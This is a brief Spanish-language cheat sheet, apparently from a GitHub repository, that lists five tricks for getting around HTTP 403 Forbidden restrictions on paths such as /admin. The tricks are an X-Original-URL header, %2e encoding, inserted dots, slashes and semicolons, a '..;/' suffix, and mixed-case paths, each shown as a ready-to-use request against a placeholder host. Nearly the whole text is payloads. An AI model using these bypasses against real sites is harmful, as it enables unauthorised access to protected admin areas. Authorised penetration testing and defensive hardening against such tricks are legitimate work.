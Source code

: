 # Bypass 403 (Forbidden)

1 - Usando el header "X-Original-URL"

Respuesta del servidor

    GET /admin HTTP/1.1
    Host: host.com
    
Intenta este bypass

    GET /anything HTTP/1.1
    Host: host.com
    X-Original-URL: /admin
    
2 - Agregar %2e después de la primera barra inclinada
    
    http://host.com/admin => 403
    
Intenta este bypass    

    http://host.com/%2e/admin => 200
    
3 - Intente agregar un punto (.), una barra inclinada (/) y un punto y coma (;) en la URL

    http://host.com/admin => 403
    
Intenta este bypass

    http://host.com/secret/. => 200
    http://host.com//secret// => 200
    http://host.com/./secret/.. => 200
    http://host.com/;/secret => 200
    http://host.com/.;/secret => 200
    http://host.com//;//secret => 200
        
4 - Agregue "..;/" después del nombre del directorio 

    http://host.com/admin
    
Intenta este bypass

    http://host.com/admin..;/
    
5 - Intenta poner en mayúsculas la ruta en la url

    http://target.com/admin
    
Intenta este bypass

    http://host.com/aDmIN
